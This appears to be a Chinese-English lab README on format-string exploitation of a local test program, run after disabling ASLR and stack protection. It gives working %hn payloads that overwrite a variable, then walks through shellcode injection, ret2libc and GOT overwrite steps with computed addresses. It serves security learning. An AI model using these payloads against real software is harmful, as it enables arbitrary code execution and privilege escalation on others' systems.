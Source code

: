 # FormatString-Attack
## Prepare
- Close ASLR `sudo sysctl -w kernel.randomize_va_space=0`
- Close Stack-execute `gcc execstack -o prog1 prog1.c`
## Change var from 0x11223344 0x66887799
>  0x6688(26248) - 44(自带的字符4+4+4+4*8) = 26204\
> 0x7799(30617) – 26248 = 4369

- `echo$(printf"\x36\xed\xff\xbf@@@@\x34\xed\xff\xbf").%.8x.%.8x.%.8x.%.8x.%.26204x%hn%.4369x%hn > input`
- `./prog1 < input | grep -a address`

![](./pic/prog1-1.png)
## Change var from 0x11223344 0xdeadbeef
>  注意 因为0xBEEF小于0xDEAD，因此在BEEF前加1变为1BEEF-DEAD，但在存入高地址的时候因为位数不够1会被省略 \
>  0xdead(57005) – 44 = 56961\
>  0x1beef(114415) – 57005 = 57410

- `echo $(printf"\x36\xED\xFF\xBF@@@@\x34\xED\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input`
- `./prog1 < input | grep -a address`

![](./pic/prog1-2.png)
## Shellcode hack
>  Ebp = 0xbfffecc8\
> Ret = ebp + 4 = 0xbfffeccc\
> 0xbfffece4 + 0x30 = 0xbfffed24 通过0x90跳板进入shellcode

- `gcc -fstack-protector -z execstack -no-pie -o prog3 prog2.c`
- `python3 exploit.py`
- 进入`shell`
![](./pic/shellcode.png)

## Ret2lib hack
- `gcc -fstack-protector -z noexecstack -o prog2 prog2.c`
- 观察frame pointer的值得到EBP的地址是`0xbfffecc8`
- `Ldd prog2`查看引用的libc
- `readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system`查找system偏移地址
- `strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"`查找”/bin/sh”的偏移地址
![](./pic/binsh.png)
- System的偏移地址为`0x0003ada0`，字符串“/bin/sh”的偏移地址为`0x0015b82b`
- `gdb prog2` `b main` `run`  `info proc mappings`
- 可以查看到libc的加载地址为`0xb7d6a000`
![](./pic/libc.png)
- 可以计算system函数的地址为`0xb7d6a000+0x0003ada0 = 0xb7da4da0`
- “/bin/sh”的地址为 `0xb7d6a000 + 0x0015b82b = 0xb7ec582b`
- `echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > input`
- 使用`chmod u+s prog2`，发现仍然不能活得root的权限
![](./pic/ret2lib.png)
## GOT-table hack
- 开启栈随机化`sudo sysctl -w kernel.randomize_va_space=1`
- 编译程序`gcc -fstack-protector -z noexecstack -no-pie -o prog3 prog2.c`
- 并用gdb打开prog3
- 用b win指令找到win函数的位置为`0x8048511`
- 反汇编出fmtstr `b fmtstr` `discass fmtstr`
- 找到输入str的函数对应的地址并disass出来
- 可以看到jmp到一个地址该地址为got表的地址
![](./pic/gotaddress.png)
- `python3 main_3.py`
- 运行prog3得到win
